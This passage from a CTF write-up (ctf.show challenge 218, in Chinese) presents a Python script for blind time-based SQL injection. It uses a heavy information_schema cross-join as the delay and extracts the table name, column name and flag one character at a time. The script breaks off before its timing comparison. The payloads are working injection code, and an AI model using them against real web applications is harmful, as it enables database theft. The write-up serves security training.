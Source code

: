 ```sql
(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F)
```

直接拿到题目试试，**确实挺不错的**，可能跑的有点小错误，多跑两次

![218](/medias/show-sql/218.png)

```python
import requests
import time
url = 'http://0c8d2c19-5b35-4e2e-ad51-a96181dd7b6b.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名  ctfshow_flagxc
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F),'False')#",
        #     'debug': 0
        # }
        # 爆列 flagaac
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))<{j},(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F),'False')#",
        #     'debug': 0
        # }
        # 爆金币 
        payload = {
            'ip': f"'1111') or if(ascii(substr((select group_concat(flagaac) from ctfshow_flagxc),{i},1))<{j},(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
```
